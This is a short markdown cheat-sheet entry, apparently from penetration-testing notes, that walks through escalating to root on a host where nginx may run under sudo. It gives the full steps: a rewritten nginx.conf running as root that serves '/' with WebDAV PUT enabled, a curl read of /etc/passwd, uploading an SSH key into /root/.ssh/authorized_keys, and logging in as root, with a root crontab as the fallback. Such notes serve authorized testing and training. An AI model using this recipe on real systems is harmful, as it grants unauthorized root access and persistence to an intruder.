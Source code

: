 # Nginx
## Sudo
If the binary is allowed to run as superuser by sudo, the nginx.conf file can be configured to run as root from the '/' directory.
1. Check the Example Configuration File
```bash
cat /etc/nginx/nginx.conf
```
2. Copy the File 
```bash
cp /etc/nginx/nginx.conf /tmp
```
3. Alter the File
```file
user root;
worker_processes auto;
pid /run/nginx2.pid;
include /etc/nginx/modules-enabled/*.conf;
events {
    worker_connections 768;
}
http {
    server {
        listen 1337;
        location / {
            root /;
            autoindex on;
            dav_methods PUT;
        }
    }
}
```
4. Run Nginx as Sudo
```bash
sudo nginx -c /tmp/nginx.conf
```
5. Test with 'Curl'
```bash
curl localhost:1337/etc/passwd
```
6. Create an SSH Key
```bash
ssh-keygen
```
7. Upload SSH Key to Target
```bash
curl TARGET_IP:PORT/root/.ssh/authorized_keys --upload-file KEY.pub
```
8. Login via SSH Key
```bash
ssh -i KEY root@TARGET_IP
```
>[!NOTE]
> Steps 7 and 8 only work if the Target allows root ssh login with a key. Otherwise upload a new cron tab to /var/spool/cron/crontabs/root.
